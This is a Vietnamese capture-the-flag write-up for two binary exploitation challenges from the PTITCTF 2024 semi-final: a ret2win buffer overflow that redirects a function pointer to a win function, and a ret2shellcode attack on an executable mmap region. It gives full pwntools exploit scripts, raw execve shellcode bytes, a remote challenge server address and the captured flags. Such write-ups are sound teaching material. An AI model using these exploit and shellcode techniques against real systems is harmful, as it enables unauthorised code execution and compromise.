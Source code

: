 # pwn1
## Kịch bản
- Ta phải ghi đè lên biến `a` để control hàm `ptr_func`
![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/Semi-final/Pwnable/image-1.png)
- Chúng ta thấy có hàm `win`, hàm này thực hiện chức năng lấy shell của server để thực hiện chương trình
![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/Semi-final/Pwnable/image-2.png)

-> Ghi đè lên biến `a` để control hàm `ptr_func`, sau đó ghi đè lên địa chỉ hàm `hello` để trỏ về hàm `win`
## Solution
- Check bảo mật của file, ta thấy có dòng `No PIE` tức là địa chỉ giữ nguyên không bị thay đổi -> Có thể tính toán offset 1 cách dễ dàng
![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/Semi-final/Pwnable/image-3.png)
- Ghi đè biến `buffer` lên biến `a`

![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/Semi-final/Pwnable/image-4.png)
![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/Semi-final/Pwnable/image-5.png)

`0x004040F0 - 0x00404060 = 0x90`
-> Ghi đè `144 - 8 (0xDEADBEEF) = 136` bytes + 8 bytes của `0xDEADBEEF`
- Thay thế địa chỉ hàm `ptr_func` để trỏ đến địa chỉ hàm `win`
- Lấy địa chỉ hàm `win` để lấy shell của chương trình
![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/Semi-final/Pwnable/image-6.png)
- Viết code lấy shell chương trình
```Python
from pwn import *

p = process("./pwn1")

#Ghi đè
payload = b"a"*136
payload += p64(0xDEADBEEF)
win = 0x000000000040130c #dia chi ham win
payload += p64(win)

p.sendlineafter(b"Enter your name:", payload)
p.interactive()
```
- Lúc này chúng ta đã lấy được shell của chương trình, tức là đã ghi đè thành công và control được địa chỉ của hàm `ptr_func`
- Sử dụng lệnh `cat flag.txt` ta thu được `PTITCTF{fake_flag}`
![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/Semi-final/Pwnable/image-7.png)
- Tiến hành remote lên server
```Python
from pwn import *

#p = process("./pwn1")
p = remote("14.225.255.41", 13331)

payload = b"a"*136
payload += p64(0xDEADBEEF) #chuyen chuoi hex sang 8 bytes

win = 0x000000000040130c
payload += p64(win)

p.sendlineafter(b"Enter your name: ", payload)
p.interactive()
```
## Flag
```PTITCTF{fl0w_fl0w_0v3rfl0w_g3t_w1n}```
## Kết luận
- Đây là dạng bài `ret2win` khá phổ biến trong mảng `pwnable`
# pwn2
## Solution
- Ta thấy có lệnh `mmap` được dùng để tạo một vùng nhớ ảo với kích thước 50 bytes và cấp quyền đọc, ghi, thực thi cho vùng nhớ đó mà không ánh xạ tới file nào

![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/Semi-final/Pwnable/image-8.png)
- Ghi đè biến `buffer` lên biến `a`

![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/Semi-final/Pwnable/image-9.png)

`0x00404094 - 0x00404060 = 0x34`

-> Vì biến `buffer` đứng trước biến `a` nên chúng ta phải ghi đè 52 bytes + 8 bytes của `0xCAFEBABE`
- Dùng lệnh `file` để kiểm tra tập tin
![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/Semi-final/Pwnable/image-10.png)
- Vì bài này không có hàm `win` nên chúng ta phải chèn `shellcode`. Lệnh `mmap` có thể sử dụng `ret2shellcode` để yêu cầu server gửi flag. Ta có thể sử dụng file [Linux x86-64 shellcode](https://shell-storm.org/shellcode/files/shellcode-806.html)
- Ta có payload `\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05` để tiến hành `ret2shellcode`. Viết code để yêu cầu server gửi flag
```Python
from pwn import *

# p = remote("14.225.255.41", 13333)
p = process("./pwn2")
p.recvuntil("Enter your name: ")
shellcode = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

payload = shellcode
p.sendline(payload)
payload = b"a"*52 + p32(0xCAFEBABE)

p.sendline(payload)
p.interactive()
```
![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/Semi-final/Pwnable/image-11.png)
- Ta đã lấy được shellcode. Remote tới server để lấy flag giống bài `pwn1`
## Flag
```PTITCTF{sk3llc0d3_js_byt3c0d3?}```
## Kết luận
- Đây là dạng bài `ret2shellcode`